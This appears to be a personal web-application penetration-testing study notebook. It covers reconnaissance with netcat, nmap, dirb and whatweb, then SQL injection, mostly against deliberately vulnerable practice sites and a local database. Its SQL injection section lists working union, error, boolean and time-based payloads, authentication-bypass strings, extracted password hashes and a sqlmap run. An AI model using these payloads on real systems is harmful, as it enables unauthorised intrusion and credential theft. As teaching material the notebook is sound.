[TOC]


# Web Application VAPT Playbook

## 1. Information Gathering

### Banner grabbing/OS and Service enumeration

#### Netcat

```
# nc -v -n 149.56.244.87 80
(UNKNOWN) [149.56.244.87] 80 (http) open

HTTP/1.1 400 Bad Request
Date: Wed, 06 Oct 2021 06:11:39 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 305
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 149.56.244.87 Port 80</address>
</body></html>
```

To remove bad request

```
# echo -ne "HEAD / HTTP/1.1\r\nHost: mutillidae.local\r\n\r\n" > tmp/request 
```

```
nc mutillidae.local 80 < tmp/request                                      
HTTP/1.1 200 OK
Date: Thu, 07 Oct 2021 06:59:05 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Thu, 07 Oct 2021 01:30:06 GMT
ETag: "2c39-5cdb933e27ced"
Accept-Ranges: bytes
Content-Length: 11321
Vary: Accept-Encoding
Content-Type: text/html
```

#### Telnet

```
 # telnet www.megacorpone.com 80
 Trying 149.56.244.87...
 Connected to www.megacorpone.com.
 Escape character is '^]'.
 ^[
 HTTP/1.1 400 Bad Request
 Date: Wed, 06 Oct 2021 06:24:10 GMT
 Server: Apache/2.4.38 (Debian)
 Content-Length: 305
 Connection: close
 Content-Type: text/html; charset=iso-8859-1
 
 <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
 <html><head>
 <title>400 Bad Request</title>
 </head><body>
 <h1>Bad Request</h1>
 <p>Your browser sent a request that this server could not understand.<br />
 </p>
 <hr>
 <address>Apache/2.4.38 (Debian) Server at 149.56.244.87 Port 80</address>
 </body></html>
 Connection closed by foreign host.
 
```

#### Curl

```
# curl -I http://192.168.101.119/mutiilidae                                       
HTTP/1.1 404 Not Found
Date: Thu, 07 Oct 2021 06:39:40 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=iso-8859-1
```


#### ID serve 


#### Nmap (Banner Grabbing/Service Enumeration)

  ````
  # nmap -sV -sT -A 149.56.244.87                                    
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 03:11 EDT
  Nmap scan report for www.megacorpone.com (149.56.244.87)
  Host is up (0.27s latency).
  Not shown: 996 closed ports
  PORT    STATE    SERVICE  VERSION
  22/tcp  open     ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
  | ssh-hostkey:
  |   2048 cd:bd:1d:f0:c2:fb:c3:d8:48:ef:7f:5f:ba:34:1f:06 (RSA)
  |   256 05:4e:c7:97:80:2e:68:73:64:9a:6f:4d:a3:6b:dd:1f (ECDSA)
  |_  256 d3:ac:5a:e7:e4:55:49:29:4c:58:9f:23:ee:5e:14:bd (ED25519)
  25/tcp  filtered smtp
  80/tcp  open     http     Apache httpd 2.4.38 ((Debian))
  |_http-server-header: Apache/2.4.38 (Debian)
  |_http-title: MegaCorp One - Nanotechnology Is the Future
  443/tcp open     ssl/http Apache httpd 2.4.38 ((Debian))
  |_http-server-header: Apache/2.4.38 (Debian)
  |_http-title: MegaCorp One - Nanotechnology Is the Future
  | ssl-cert: Subject: commonName=www.megacorpone.com
  | Subject Alternative Name: DNS:www.megacorpone.com
  | Not valid before: 2021-09-02T06:30:13
  |_Not valid after:  2021-12-01T06:30:12
  |_ssl-date: TLS randomness does not represent time
  | tls-alpn:
  |_  http/1.1
  Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), WatchGuard Fireware 11.8 (91%), Linux 2.6.35 (90%)
  No exact OS matches for host (test conditions non-ideal).
  Network Distance: 22 hops
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  TRACEROUTE (using proto 1/icmp)
  HOP RTT       ADDRESS
  1   0.80 ms   192.168.101.2
  2   8.84 ms   119.95.192.1.static.pldt.net (119.95.192.1)
  3   11.56 ms  122.2.175.190.static.pldt.net (122.2.175.190)
  4   9.70 ms   210.213.131.101.static.pldt.net (210.213.131.101)
  5   39.41 ms  210.213.135.117.static.pldt.net (210.213.135.117)
  6   28.39 ms  ae15-0-xcr1.hkg.cw.net (195.89.96.193)
  7   228.83 ms ae47.0-xcr1.sng.cw.net (195.2.16.149)
  8   196.88 ms ae34-xcr1.mrx.cw.net (195.2.2.57)
  9   210.80 ms ae5-xcr3.prp.cw.net (195.2.25.17)
  10  ... 13
  14  224.24 ms be103.rbx-g4-nc5.fr.eu (54.36.50.229)
  15  ...
  16  266.33 ms be100-1298.nwk-5-a9.nj.us (192.99.146.133)
  17  270.37 ms be102.bhs-g2-nc5.qc.ca (192.99.146.138)
  18  ... 21
  22  265.65 ms www.megacorpone.com (149.56.244.87)
  
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 56.73 seconds
  ````


#### Nmap (OS Fingerprinting)

  ```
  # nmap -O 149.56.244.87                                           
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 03:17 EDT
  Nmap scan report for www.megacorpone.com (149.56.244.87)
  Host is up (0.27s latency).
  Not shown: 996 closed ports
  PORT    STATE    SERVICE
  22/tcp  open     ssh
  25/tcp  filtered smtp
  80/tcp  open     http
  443/tcp open     https
  Aggressive OS guesses: Linux 2.6.32 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%), Linux 2.6.39 (90%)
  No exact OS matches for host (test conditions non-ideal).
  Network Distance: 22 hops
  
  OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 22.31 seconds
  
  ```


### Enumerate Webserver Directories

#### DirBuster


#### DIRB

- is a web content scanner that uses a wordlist to find directories and pages by issuing requests to the server. 

- can identify valid web pages on a web server even if the main index page is missing.

- By default, DIRB will identify interesting directories on the server but it can also be customized to search for specific directories, use custom dictionaries, set a custom cookie or header on each request, and much more.

  Let's run DIRB on www.megacorpone.com. We will supply several arguments: the URL to scan, -r to scan non-recursively, and -z 10 to add a 10 millisecond delay to each request:

  ```
  # dirb https://www.megacorpone.com -r -z 10                               
  
  -----------------
  DIRB v2.22
  By The Dark Raver
  -----------------
  
  START_TIME: Tue Oct  5 22:42:25 2021
  URL_BASE: https://www.megacorpone.com/
  WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
  OPTION: Not Recursive
  SPEED_DELAY: 10 milliseconds
  
  -----------------
  
  GENERATED WORDS: 4612
  
  ---- Scanning URL: https://www.megacorpone.com/ ----
  + https://www.megacorpone.com/admin (CODE:403|SIZE:285)
  ==> DIRECTORY: https://www.megacorpone.com/assets/
  + https://www.megacorpone.com/index.html (CODE:200|SIZE:14603)
  ==> DIRECTORY: https://www.megacorpone.com/old-site/
  + https://www.megacorpone.com/robots.txt (CODE:200|SIZE:43)
  + https://www.megacorpone.com/server-status (CODE:403|SIZE:285)
  
  -----------------
  END_TIME: Tue Oct  5 23:04:18 2021
  DOWNLOADED: 4612 - FOUND: 4
  ```

  

#### Nmap

```
# nmap --script http-enum.nse 149.56.244.87
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 22:37 PST
Nmap scan report for www.megacorpone.com (149.56.244.87)
Host is up (0.27s latency).
Not shown: 996 closed ports
PORT    STATE    SERVICE
22/tcp  open     ssh
25/tcp  filtered smtp
80/tcp  open     http
| http-enum:
|_  /robots.txt: Robots file
443/tcp open     https
| http-enum:
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 64.96 seconds
```

   

### Web Enumeration

#### Whatweb

- recognizes web technologies including content management systems (CMS), blogging platforms, statistical/analytics packages, JavaScript libraries, web servers, and embedded devices.
- It has over 1700 plug-ins to recognize anything different and also identifies version numbers, email addresses, account IDs, web framework modules, SQL errors, and more.

```
# whatweb https://www.megacorpone.com
https://www.megacorpone.com [200 OK] Apache[2.4.38], Bootstrap, Country[UNITED STATES][US], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[149.56.244.87], JQuery[1.11.0], Script, Title[MegaCorp One - Nanotechnology Is the Future], X-UA-Compatible[IE=edge]
```

 ```
 # whatweb -v https://www.megacorpone.com
 WhatWeb report for https://www.megacorpone.com
 Status    : 200 OK
 Title     : MegaCorp One - Nanotechnology Is the Future
 IP        : 149.56.244.87
 Country   : UNITED STATES, US
 
 Summary   : Apache[2.4.38], Bootstrap, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], JQuery[1.11.0], X-UA-Compatible[IE=edge], HTML5, Script
 
 Detected Plugins:
 [ Apache ]
         The Apache HTTP Server Project is an effort to develop and
         maintain an open-source HTTP server for modern operating
         systems including UNIX and Windows NT. The goal of this
         project is to provide a secure, efficient and extensible
         server that provides HTTP services in sync with the current
         HTTP standards.
 
         Version      : 2.4.38 (from HTTP Server Header)
         Google Dorks: (3)
         Website     : http://httpd.apache.org/
 
 [ Bootstrap ]
         Bootstrap is an open source toolkit for developing with
         HTML, CSS, and JS.
 
         Website     : https://getbootstrap.com/
 
 [ HTML5 ]
         HTML version 5, detected by the doctype declaration
 
 
 [ HTTPServer ]
         HTTP server header string. This plugin also attempts to
         identify the operating system from the server header.
 
         OS           : Debian Linux
         String       : Apache/2.4.38 (Debian) (from server string)
 
 [ JQuery ]
         A fast, concise, JavaScript that simplifies how to traverse
         HTML documents, handle events, perform animations, and add
         AJAX.
 
         Version      : 1.11.0
         Website     : http://jquery.com/
 
 [ Script ]
         This plugin detects instances of script HTML elements and
         returns the script language/type.
 
 
 [ X-UA-Compatible ]
         This plugin retrieves the X-UA-Compatible value from the
         HTTP header and meta http-equiv tag. - More Info:
         http://msdn.microsoft.com/en-us/library/cc817574.aspx
 
         String       : IE=edge
 
 HTTP Headers:
         HTTP/1.1 200 OK
         Date: Wed, 06 Oct 2021 10:15:00 GMT
         Server: Apache/2.4.38 (Debian)
         Last-Modified: Wed, 06 Nov 2019 15:04:14 GMT
         ETag: "390b-596aedca79780-gzip"
         Accept-Ranges: bytes
         Vary: Accept-Encoding
         Content-Encoding: gzip
         Content-Length: 3779
         Connection: close
         Content-Type: text/html
 ```

#### ChecK HTTP Headers from browser

##### HTTP Headers Live

Add HTTP Header Live in Firefox add-ons



##### Wappalyzer

Add Wappalyzer in Firefox add-ons


#### Check HTTP Headers with curl

```
# curl -I http://192.168.101.119/mutiilidae                                       
HTTP/1.1 404 Not Found
Date: Thu, 07 Oct 2021 06:39:40 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=iso-8859-1
```


## 2. Vulnerability Scanning

**Tools:**

### Nessus

### Acunetix

### OpenVAS

 

## 3. Exploitation

**Tools:**

### Metasploit

### Burpsuite

### Sqlmap

- exploiting SQL injection vulnerabilities

 

## 4. Reporting


## Information needed for WEB VAPT

### Types of Penetration Testing for Web Applications
1. **Internal Pen Testing**
- is performed within the organization via LAN, including testing web applications that are hosted on the intranet.
2. **External Pen Testing**
- focuses on attacks initiated from outside the organization to test web applications hosted on the internet.

 

### Web Application Enumeration

- Programming language and frameworks
- Web server software
- Database software
- Server operating system

 

### Web Application Assessment Methodology

Before we begin discussing enumeration and exploitation, we will talk about the basic web application penetration testing methodology.

As a first step, we should gather information about the application. 

- What does the application do?
- What language is it written in? 
- What server software is the application running on? 

 The answers to these and other basic questions will help guide us towards our first (or next) potential attack vector.

 As with many penetration testing disciplines, the goal of each attempted attack or exploit is to increase our permissions within the application or pivot to another application or target. Each successful exploit along the way may grant access to new functionality or components within the application. We may need to successfully execute several exploits to advance from an unauthenticated user account access to any kind of shell on the system.

 Enumeration of new functionality is important each step of the way especially since attacks that previously failed may succeed in a new context. As penetration testers, we must continue to enumerate and adapt until we've exhausted all attack avenues or compromised the system.


## Introduction to Packet Analysis

### Capturing Network Traffic with TCPDump

```
# tcpdump -i eth0 -nn -A -vvv -w tmp/packets.pcap
```

**Read pcap file**

```
# tcpdump -nn -A -vvv -r tmp/packets.pcap
```

**Read pcap file in Wireshark**

```
# wireshark tmp/packets.pcap &
```


-i Interface

-nn Do not resolve names

-A Also show ASCII and Hex captured

-v Be verbose

-w Write captured packets to PCAP file

-ccount — Exit after receiving count packets
-q Quick (quiet?) output. Print less protocol information

-r file Read packets from file created with the -w option or other tool

-X Also print (in hex) the data of each packet

-XX Also print (in hex) the data of each packet including link level header

### Packet Analysis with Wireshark

**Read pcap file in Wireshark**

```
# wireshark tmp/packets.pcap &
```


## SQL Injection

### Types of  SQL Injection

#### 1. In band SQL Injections

##### Data - Union Based

     ```
     MariaDB [dark]> show tables;
     +----------------+
     | Tables_in_dark |
     +----------------+
     | login          |
     +----------------+
     1 row in set (0.001 sec)
     
     MariaDB [dark]> select * from login;
     +------+---------+----------+-------------+
     | id   | name    | password | country     |
     +------+---------+----------+-------------+
     |    1 | Sherwin | 12345    | Philippines |
     +------+---------+----------+-------------+
     1 row in set (0.000 sec)
     
     MariaDB [dark]> select * from login union select 1,2,3,4;
     +------+---------+----------+-------------+
     | id   | name    | password | country     |
     +------+---------+----------+-------------+
     |    1 | Sherwin | 12345    | Philippines |
     |    1 | 2       | 3        | 4           |
     +------+---------+----------+-------------+
     2 rows in set (0.001 sec)
     
     MariaDB [dark]> select * from login union select database(),2,3,4;
     +------+---------+----------+-------------+
     | id   | name    | password | country     |
     +------+---------+----------+-------------+
     | 1    | Sherwin | 12345    | Philippines |
     | dark | 2       | 3        | 4           |
     +------+---------+----------+-------------+
     2 rows in set (0.000 sec)
     
     MariaDB [dark]> select * from login union select user(),database(),version(),4;
     +----------------+---------+-----------------+-------------+
     | id             | name    | password        | country     |
     +----------------+---------+-----------------+-------------+
     | 1              | Sherwin | 12345           | Philippines |
     | root@localhost | dark    | 10.4.17-MariaDB | 4           |
     +----------------+---------+-----------------+-------------+
     2 rows in set (0.001 sec)
     ```


http://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,2,3,4;


**To check the number of columns**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 order by 2
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 order by 20
```




```
https://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,database(),10,11
```

http://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,user(),3,4,3,4,version(),8,database(),10,11



**To show all the database**

```
MariaDB [dark]> select schema_name from information_schema.schemata;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |
| dark               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| test               |
| y                  |
+--------------------+
7 rows in set (0.001 sec)
```

**To list all the database**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,schema_name,10,11 from information_schema.schemata
```


**To show all the tables**

```
MariaDB [dark]> select table_name from information_schema.tables where table_schema="dark";
+------------+
| table_name |
+------------+
| login      |
+------------+
1 row in set (0.001 sec)

MariaDB [dark]>
```

**To list all the tables**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,table_name,10,11 from information_schema.tables where table_schema="acuart"
```




**To make it more clear and shorter**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,group_concat(table_name),10,11 from information_schema.tables where table_schema="acuart"
```




##### Error - Error Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.000 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select name from users where name="sherwin" or 1=1 group by round(rand(0)) having min(0);
  ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
  
  MariaDB [y]> select name, round(rand(0)), concat(version(),round(rand(0))) from users;
  +----------+----------------+----------------------------------+
  | name     | round(rand(0)) | concat(version(),round(rand(0))) |
  +----------+----------------+----------------------------------+
  | sherwin  |              0 | 10.4.17-MariaDB0                 |
  | analette |              1 | 10.4.17-MariaDB1                 |
  | reine    |              1 | 10.4.17-MariaDB1                 |
  +----------+----------------+----------------------------------+
  3 rows in set (0.000 sec)
  ```


      ```
      MariaDB [y]> select name,rand() from users;
      +----------+---------------------+
      | name     | rand()              |
      +----------+---------------------+
      | sherwin  |  0.5641665035525025 |
      | analette |  0.7424374937475077 |
      | reine    | 0.01968798881367593 |
      +----------+---------------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name,rand() from users;
      +----------+---------------------+
      | name     | rand()              |
      +----------+---------------------+
      | sherwin  |  0.8711274935595016 |
      | analette | 0.29657353209012516 |
      | reine    |  0.8694852105057661 |
      +----------+---------------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name,rand(0),round(rand(0)) from users;
      +----------+---------------------+----------------+
      | name     | rand(0)             | round(rand(0)) |
      +----------+---------------------+----------------+
      | sherwin  | 0.15522042769493574 |              0 |
      | analette |   0.620881741513388 |              1 |
      | reine    |  0.6387474552157777 |              1 |
      +----------+---------------------+----------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name,rand(0),round(rand(0)) from users;
      +----------+---------------------+----------------+
      | name     | rand(0)             | round(rand(0)) |
      +----------+---------------------+----------------+
      | sherwin  | 0.15522042769493574 |              0 |
      | analette |   0.620881741513388 |              1 |
      | reine    |  0.6387474552157777 |              1 |
      +----------+---------------------+----------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name from users group by round(rand(0));
      +----------+
      | name     |
      +----------+
      | sherwin  |
      | analette |
      +----------+
      2 rows in set (0.001 sec)
      ```


**Showing Group Key Error**]

```
MariaDB [y]> select name from users group by round(rand(0)) having min(0);
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'

OR

MariaDB [y]> select name,count(*) from users group by round(rand(0));
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
```

**It will show all the rows**

```
MariaDB [y]> select name from users where name="sherwin" or 1=1;
+----------+
| name     |
+----------+
| sherwin  |
| analette |
| reine    |
+----------+
3 rows in set (0.000 sec)
```


```
MariaDB [y]> select name from users where name="sherwin" or 1=1 group by round(rand(0)) having min(0);
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
```


```
MariaDB [y]> select name,concat(version()),round(rand(0)) from users;
+----------+-------------------+----------------+
| name     | concat(version()) | round(rand(0)) |
+----------+-------------------+----------------+
| sherwin  | 10.4.17-MariaDB   |              0 |
| analette | 10.4.17-MariaDB   |              1 |
| reine    | 10.4.17-MariaDB   |              1 |
+----------+-------------------+----------------+
3 rows in set (0.001 sec)

MariaDB [y]> select name,concat(version(),database(),user(),round(rand(0))) from users;
+----------+----------------------------------------------------+
| name     | concat(version(),database(),user(),round(rand(0))) |
+----------+----------------------------------------------------+
| sherwin  | 10.4.17-MariaDByroot@localhost0                    |
| analette | 10.4.17-MariaDByroot@localhost1                    |
| reine    | 10.4.17-MariaDByroot@localhost1                    |
+----------+----------------------------------------------------+
3 rows in set (0.000 sec)

MariaDB [y]> select name,concat(version()," ",database()," ",user()," ",round(rand(0))) from users;
+----------+----------------------------------------------------------------+
| name     | concat(version()," ",database()," ",user()," ",round(rand(0))) |
+----------+----------------------------------------------------------------+
| sherwin  | 10.4.17-MariaDB y root@localhost 0                             |
| analette | 10.4.17-MariaDB y root@localhost 1                             |
| reine    | 10.4.17-MariaDB y root@localhost 1                             |
+----------+----------------------------------------------------------------+
3 rows in set (0.000 sec)
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by round(rand(0)) having min(0)#
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by concat(version()," ",database()," ",user()," ",round(rand(0))) having min(0)#
```

##### Extremely Vulnerable Web Application

**Check how many columns in the input box**

- Trial and error , increase the number order by 
- If you receive error it means number of columns is incorrect

Order statement

```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' ORDER BY 1;

1' order by 1#

1' order by 2#
```

**Show the database name**

Union statement

```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,5,6,7#

1' UNION SELECT 1,user(),3,4,database(),6,7#
```


**Get the table name**

```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,table_name,6,7 from information_schema.tables#
```



**Get the column name**

- table name = users

```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,column_name,6,7 from information_schema.columns where table_name='users'#
```



**Show the records**


```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,group_concat(uid,0x3a,username,0x3a,password),6,7 from users#
```

1:admin:21232f297a57a5a743894a0e4a801fc3,2:xvwa:570992ec4b5ad7a313f5dc8fd0825395,3:user:25890deab1075e916c06b9e1efc2e25f



#### 2. Inferential SQL Injections
##### True/False - Boolean Based

  ```
  MariaDB [y]> use dark;
  Database changed
  
  MariaDB [dark]> show tables;
  +----------------+
  | Tables_in_dark |
  +----------------+
  | login          |
  +----------------+
  1 row in set (0.001 sec)
  
  MariaDB [dark]> select * from login;
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  
  # Getting the length of the database
  
  MariaDB [dark]> select * from login where id=2 or length(database())="1";
  Empty set (0.000 sec)
  
  MariaDB [dark]> select * from login where id=2 or length(database())="4";
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  ```

**Getting the name of the database using substring**

```
MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="a";
Empty set (0.001 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="d";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),2,1)="a";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),3,1)="r";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),4,1)="k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,4)="dark";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)
```

**Getting the name of the database using like**

```
MariaDB [dark]> select * from login where id=2 or database() like "%b%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%ad%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d_rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d__k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```

**Name of database is "acuart" length of database is "6"**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and database() like "%art"
```

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and substring(database(),1,1)="a";
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 and length(database())="6"
```


##### Time - Time/Sleep Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.001 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
  Empty set (2.009 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="z",sleep(2),sleep(5));
  Empty set (5.010 sec)
  ```

**If command**

```
mysql> select * from users where name="sherwin" and if(database()="a",sleep(2),sleep(5));
Empty set (5.01 sec)

mysql> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="1",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="2",sleep(2),sleep(5));
Empty set (5.00 sec)
```

````
http://testphp.vulnweb.com/listproducts.php?cat=2 and and if(length(database())="6",sleep(2),sleep(5));
````


#### 3. Out of Band SQLi

   - Oracle
   - UTL_HTTP


### Classic Injection Bypass

```
MariaDB [y]> use dark
Database changed

MariaDB [dark]> select * from login;
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="Sherwin" and password="12345";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="sherwin" or "1"="1" and password="12345" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1" and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";# and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";-- and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```


**Comment in SQL**

- -- or -- -
- #
- /*

#### Standard Sql Injection Payload 

**Authentication Bypass**

- ' or 1=1-- -
- ' or 1=1-- -
- ' or 1=1#
- " or 1=1--
- x' or 'x'='x
- x' or 'x'!='y


http://demo.testfire.net/login.jsp


### SQL Injection Tools

#### Semi-Automated

##### Burpsuite

#### Automated

##### sqlmap

```
sherwinowen@owenbox:~/my_tools/sqlmap$ python3 sqlmap.py -r request.txt
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10.15#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:20:56 /2021-10-14/

[13:20:56] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
[13:21:06] [INFO] testing connection to the target URL
got a 302 redirect to 'http://testphp.vulnweb.com:80/login.php'. Do you want to follow? [Y/n] y
